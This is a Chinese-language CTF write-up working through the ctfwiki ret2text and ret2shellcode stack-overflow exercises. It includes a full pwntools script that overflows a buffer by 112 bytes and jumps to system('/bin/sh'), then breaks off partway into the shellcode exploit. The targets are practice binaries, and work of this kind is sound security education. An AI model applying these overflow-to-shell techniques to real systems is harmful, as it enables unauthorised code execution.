 ```yaml
---
layout: ctfwiki
title: Rop
date: 2020-01-31 18:06:00
tags:
  - wp
categories:
  - pwn
---
```

      ctfwiki上的Basic rop的复现
### 0x00 ret2text
这道题其实就是很简单很简单的栈溢出
</br>开虚拟机，放到gdb去看一下基本信息：
![](1.png)
</br>嗯，几乎啥保护都没有！
</br>放到ida里看一下：
![](2.png)
</br>gets那里发生了栈溢出，用gdb算出偏移量为112。接着我在secure函数中找到了system函数，然后又找到'/bin/sh/':
![](3.png)
![](4.png)
</br>之后就可以写攻击脚本：
```
from pwn import *

c=process('./ret2text')

system_addr=0x08048490
bin_addr=0x08048763
payload = ''
payload += 'a'*112
payload +=p32(system_addr)+p32(0)+p32(bin_addr)

c.sendline(payload)
c.interactive()
```

![](5.png)<br>

### 0x01 ret2shellcode
我觉得这道题首先要介绍一下，shellcode是什么。shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制之机械码，以其经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机械码，让电/脑可以执行攻击者的任意指令。（来自维基百科）<b>一般来说，shellcode是需要我们自己填充的。</b>在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，<b>shellcode 所在的区域具有可执行权限</b>。
</br>看一下基本信息：
![](6.png)
</br>没开啥保护
</br>看一下ida的反汇编结果：
![](7.png)
</br>gets那里存在栈溢出，这里有个buf2在bss段上，在gdb上用vmmap上查看：
![](10.png)
![](8.png)
</br>可以看到bss段是可读可写的，并且找不到system或者'/bin/sh'字符，所以我们可以用shellcode，这样的话我们就可以把shellcode的地址放在buf2上,再用gdb算出偏移量为112,于是，我们可以写脚本了：
```
from pwn import *

sh = process('./ret2shellcode')
```